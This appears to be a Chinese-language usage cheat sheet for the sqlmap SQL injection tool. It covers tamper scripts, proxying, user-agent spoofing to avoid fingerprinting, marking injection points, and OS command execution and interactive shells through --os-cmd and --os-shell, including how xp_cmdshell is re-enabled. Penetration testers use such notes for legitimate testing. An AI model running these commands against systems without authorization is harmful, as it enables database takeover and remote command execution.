 ### 简介

|名称|描述|
|:-------------:|--|
|[sqlmap](https://github.com/sqlmapproject/sqlmap)| Automatic SQL injection and database takeover tool|

### tamper详解

根据 [tamper脚本分类汇总 sqlmap_tamper.csv](files/sqlmap_tamper.csv) 中的 数据库类型 与 绕过方式，可选择合适的tamper(或自写脚本)


### 常用参数 - 强制ssl

待测网站通常是https协议 

可能出现404`[CRITICAL] page not found (404)`

加上参数即可`--force-ssl`

（在Host头最后加上`:443`这种办法一般可行但有局限性，实测中有8443端口的https无法用该方法解决）


### 加快测试速度

指定数据库类型
```
--dbms Oracle
--dbms Mysql
--dbms "Microsoft Access"
```

### 常用参数 - 设置proxy代理流量

格式为：`(http|https|socks4|socks5)://address:port`

如
```
--proxy=socks5://127.0.0.1:1080
```

### 常用参数 - 设置user-agent避免指纹

随机user-agent
```
 --random-agent
```

安卓手机user-agent
```
--user-agent "Mozilla/5.0 (Linux; U; Android 2.2; en-us; Droid Build/FRG22D) AppleWebKit/533.1 (KHTML, like Gecko) Version/4.0 Mobile Safari/533.1"
```

### 常用参数 - 用*标记注入点

针对情况：伪静态 等不识别的格式

```
sqlmap -u xxx.com/index.php/Index/view/id/40*.html --dbs
```

-r 也是在请求包文件中的参数值后面加*号

### 参数 - OS命令执行

前提1：数据库为MySQL/PostgreSQL/Microsoft SQL Server
前提2：当前用户有权限使用特定的函数. 在sqlmap中查看权限用 `--privileg`

--os-shell=whoami
```
#--os-cmd=执行系统命令
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-cmd=whoami 
```

--os-shell
```
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --os-shell #交互式shell
```

实现原理：

在MySQL、PostgreSQL: sqlmap上传一个二进制库，包含用户自定义的函数sys_exec()和sys_eval() 创建的这两个函数可以执行系统命令。

在Microsoft SQL Server: sqlmap将会使用xp_cmdshell存储过程，如果被禁（在Microsoft SQL Server 2005及以上版本默认禁制），sqlmap会重新启用它，如果不存在，会自动创建。
